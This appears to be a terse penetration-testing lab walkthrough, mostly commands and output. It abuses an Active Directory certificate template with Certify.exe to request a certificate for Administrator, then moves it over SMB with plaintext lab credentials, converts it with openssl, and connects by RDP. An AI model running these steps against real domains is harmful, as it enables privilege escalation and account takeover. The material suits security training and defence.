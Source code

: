 ```powershell
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

- `cert.pem`

<details><summary>Click to expand!</summary></details>

---

```bash
smbclient \\\\172.16.18.25\\Share -U eagle/bob%Slavi123
```

```bash
dir
  .                                   D        0  Mon Apr 28 17:00:19 2025
  ..                                  D        0  Mon Apr 28 17:00:19 2025
  cert.pem                            A     3944  Mon Apr 28 17:00:34 2025

                7670271 blocks of size 4096. 1460893 blocks available
```

```bash
get cert.pem 
getting file \cert.pem of size 3944 as cert.pem (1925.7 KiloBytes/sec) (average 1925.8 KiloBytes/sec)
```

```bash
exit
```

---

```bash
sed -i 's/\s\s\+/\n/g' cert.pem
```

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

---

```bash
smbclient \\\\172.16.18.25\\Share -U eagle/bob%Slavi123                                            
Try "help" to get a list of possible commands.

smb: \> put cert.pfx
putting file cert.pfx as \cert.pfx (225.1 kb/s) (average 225.1 kb/s)

exit
```

---

```bash
xfreerdp /v:172.16.18.25 /u:bob /p:Slavi123 /cert:ignore /dynamic-resolution 
```

---